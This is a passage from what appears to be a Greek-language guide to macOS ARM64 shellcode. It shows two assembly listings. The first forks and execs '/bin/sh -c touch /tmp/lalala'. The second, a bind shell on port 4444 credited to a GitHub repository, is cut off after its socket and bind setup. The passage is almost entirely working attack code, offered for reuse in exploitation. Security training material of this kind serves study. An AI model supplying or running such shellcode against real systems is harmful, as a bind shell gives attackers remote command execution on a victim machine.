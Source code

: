 ```armasm
cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
beq _loop              ; If not child process, loop

; Prepare the arguments for the execve syscall

sub sp, sp, #64        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, sh_path
str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
adr x0, sh_c_option    ; Get the address of "-c"
str x0, [x1, #8]       ; Store the address of "-c" as the second argument
adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

adr x0, sh_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


_exit:
mov x16, #1            ; Load the syscall number for exit (1) into x8
mov x0, #0             ; Set exit status code to 0
svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```
#### Bind shell

Δέστε το shell από [https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS\_ARM64\_Shellcode/master/bindshell.s) στη **θύρα 4444**
```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_bind:
/*
* bind(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
*     sa_family_t     sin_family;  // AF_INET = 2
```